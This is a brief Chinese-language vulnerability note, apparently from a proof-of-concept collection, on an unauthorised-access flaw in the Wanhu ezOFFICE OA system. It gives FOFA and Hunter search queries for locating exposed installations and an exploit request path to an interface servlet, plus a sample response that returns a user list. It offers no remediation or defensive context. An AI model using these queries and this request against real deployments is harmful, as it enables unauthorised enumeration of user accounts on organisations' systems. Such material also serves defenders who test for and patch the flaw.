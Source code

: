 # 万户 ezOFFICE 未授权访问漏洞

## 网络测绘

fofa: app="万户网络-ezOFFICE"

hunter: app.name="万户 Ezoffice OA"

## POC / EXP

```
/defaultroot/evoInterfaceServlet?paramType=user
```

```
{result:'success', data:{"userList":[]}}
```
